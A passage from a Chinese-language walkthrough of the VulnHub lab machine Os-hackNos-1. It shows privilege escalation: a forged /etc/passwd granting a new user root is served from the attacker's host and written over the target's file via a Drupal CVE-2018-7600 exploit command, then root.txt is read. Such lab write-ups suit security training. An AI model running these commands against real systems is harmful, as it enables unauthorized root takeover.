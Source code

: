 ![image-20230628232349133](vulnhub靶机 Os-hackNos-1.assets\image-20230628232349133.png)

将moon加入到伪造的passwd，并赋予root权限

![image-20230628232408828](vulnhub靶机 Os-hackNos-1.assets\image-20230628232408828.png)

将passwd放到开启了python  httpserver的文件夹中

然后使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c "wget http://192.168.5.129:8000/passwd -O /etc/passwd"  
```

或者直接在已有的shell中进行

```
wget http://192.168.5.129:8000/passwd -O /etc/passwd
```

然后在已有的shell中进行切换用户

![image-20230628232454442](vulnhub靶机 Os-hackNos-1.assets\image-20230628232454442.png)



```

root@hackNos:/var/www# cd ~
cd ~
root@hackNos:~# ls
ls
root.txt
root@hackNos:~# cat root.txt
cat root.txt
    _  _                              _   
  _| || |_                           | |  
 |_  __  _|______  _ __  ___    ___  | |_ 
  _| || |_|______|| '__|/ _ \  / _ \ | __|
 |_  __  _|       | |  | (_) || (_) || |_ 
   |_||_|         |_|   \___/  \___/  \__|
                                          
                                          

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Linkedin : https://www.linkedin.com/in/rahulgehlaut/

Blog : www.hackNos.com

```





## 注意事项

使用菜刀等webshell不能切换，因为su命令必须在终端中执行

su: must be run from a terminal

![image-20230628232523339](vulnhub靶机 Os-hackNos-1.assets\image-20230628232523339.png)

